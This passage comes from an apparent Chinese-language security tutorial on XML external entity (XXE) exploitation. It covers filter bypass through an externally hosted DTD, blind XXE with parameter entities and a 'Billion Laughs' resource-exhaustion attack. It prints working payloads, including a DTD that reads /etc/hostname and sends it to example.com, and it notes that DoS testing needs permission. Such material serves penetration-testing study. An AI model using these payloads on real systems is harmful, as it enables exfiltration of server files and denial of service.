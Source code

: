 在某些情况下，你会遇到过滤掉 file://  
 协议并用空值或完全阻止它的目标。  
  
为了绕过这一点，我们可以利用 XML 中的一个特殊功能，即文档类型定义（DTD）。  
  
DTD 本质上是一个文件，指定了我们在恶意 XML 结构中使用的实体。  
  
现在，与其像之前那样本地声明它（并让安全过滤器移除我们的 file://  
 协议），我们可以在外部文件中声明我们的 DTD 并完全绕过过滤。  
  
假设我们在服务器上托管了以下文档类型定义（DTD）文件：  
```
<!ENTITY % hostname SYSTEM "file:///etc/hostname"><!ENTITY % e "<!ENTITY &#x25; xxe SYSTEM 'http://example.com/?c=%hostname;'>">%e;%xxe;
```  
  
我们可以构建一种 XXE Payload，使易受攻击的应用程序能够访问我们的服务器，从而加载我们恶意的 DTD 文件并执行其内容：  
```
<!DOCTYPE root [<!ENTITY % xxe SYSTEM "https://example.com/xxe.dtd"> %xxe;]>
```  
  
使用这种方法，我们不再需要向易受攻击的服务器指定被过滤的 file://  
 协议，同时还能泄露内部文件内容！  
##  利用参数实体的 xxe 盲注   
  
一些开发者会尝试采取主动措施防止 XXE 攻击，并尝试从用户输入中去除实体。  
  
众所周知，XML 实体（相当于一个变量）的声明和使用格式如下：  
```
<!DOCTYPE root [  <!ENTITY name "This text will replace &name; when used">]><root>&name;</root>
```  
  
过滤掉and和符号（＆）通常是一件合乎逻辑的事情，但是，我们可以通过使用参数实体轻松绕过这一点。  
  
参数实体用一个百分比符号（<!ENTITY % name "value">  
）定义，并用以下语法引用：％name;  
  
它们只能在 DTD 本身中引用，这里有一个使用参数实体加载外部资源的 XXE Payload 示例：  
```
<!DOCTYPE root [<!ENTITY % xxe SYSTEM "http://example.com/"> %xxe;]><root></root>
```  
  
通过这种方法，我们可以利用参数实体来绕过阻止常规外部实体的保护和过滤。  
##  通过资源耗尽的XXE利用   
  
正如之前提到的，XML 解析器的安全配置错误可能会打开新的攻击向量，并允许我们利用 XXE 漏洞。  
  
在某些情况下，当实体扩展限制未设置时，我们几乎可以利用这一点来指数级扩展外部实体。  
  
指数级实体扩展，也被称为“Billion Laughs”攻击，利用递归实体声明，导致高内存消耗甚至系统崩溃：  
```
<!DOCTYPE root [  <!ENTITY e "e">  <!ENTITY e1 "&e;&e;&e;&e;&e;&e;&e;&e;&e;&e;">  <!ENTITY e2 "&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;">  <!ENTITY e3 "&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;">  <!-- ... -->]><root>&e9;</root>
```  
  
这种攻击特别危险，因为Payload本身相对较小，而在解析过程中会扩展，从而完全耗尽服务器资源。  
  
**提醒：**  
 在进行拒绝服务（DoS）攻击测试时，请始终遵守程序指南，并仅在获准的情况下进行！  
##  通过 UTF-7 编码利用 XXE   
  